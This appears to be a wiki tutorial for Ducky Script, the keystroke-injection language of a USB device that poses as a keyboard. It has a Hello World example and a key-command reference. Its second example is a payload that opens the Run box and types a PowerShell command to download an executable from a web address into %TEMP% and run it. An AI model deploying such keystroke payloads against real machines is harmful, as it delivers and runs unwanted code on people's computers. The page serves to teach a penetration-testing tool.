 = Introduction =
Since first time Ducky users are unfamiliar with Ducky Script, below is a brief summary (with examples) on how to code in Ducky Script.

= Example 1 - Hello World =
The Ducky fires the payload immediately, so you need an initial delay for the OS to recognize and allow the Ducky to proceed as a keyboard, in this example we use a delay of 3secs (3000msecs) for the Windows OS (other OS's may be quicker).

The steps of this example can be broken down into:
* Initial Delay for the OS
* GUI r triggers the run-box
* Small delay to wait for the run-box to open
* Ducky types notepad ENTER to load notepad
* Small delay to wait for notepad to open
* Ducky then types an arbitrary string into notepad

 DELAY 3000
 GUI r
 DELAY 200
 STRING notepad
 ENTER
 DELAY 200
 STRING Hello World!!!
 ENTER

* Note : For Windows 10, the GUI does not seem to work. Use CTRL ESC instead. Below is the complete example:
<code>
DELAY 2000 <br>
CTRL ESC <br>
DELAY 2000 <br>
STRING notepad.exe <br>
ENTER <br>
DELAY 2000 <br>
STRING HELLO WORLD!!! <br>
ENTER
</code>
= Example 2 - Download & Execute =
An example of using Powershell to download a file from the web and then execute it.
 DELAY 3000
 GUI r
 DELAY 100
 STRING powershell (new-object System.Net.WebClient).DownloadFile('http://example.com/bob.old','%TEMP%\bob.exe');
 DELAY 100
 STRING Start-Process "%TEMP%\bob.exe"
 ENTER
= Other Examples =
The community is storing generated payloads on the following wiki-page:
* [[Payloads]]

=Command Breakdown=
* DELAY ''x'' - Delay in milli-secs
* STRING ''xyz'' - types following characters
* GUI - Windows Menu Key
* GUI r - Windows Run box
* COMMAND - OSX Command Key
* UP | UPARROW - Up Key
* DOWN | DOWNARROW - Down Key
* LEFT | LEFTARROW - Left Key
* RIGHT | RIGHTARROW - Right Key
* CAPS |CAPSLOCK - Capslock Key
* ENTER - Return/Enter key
* SPACE - Spacebar
* REPEAT ''x'' - Repeat previous command X times.
You can even use some (but not all) two or three key-combinations:
* SHIFT-ENTER
* CTRL-ALT-DEL
* ALT-F4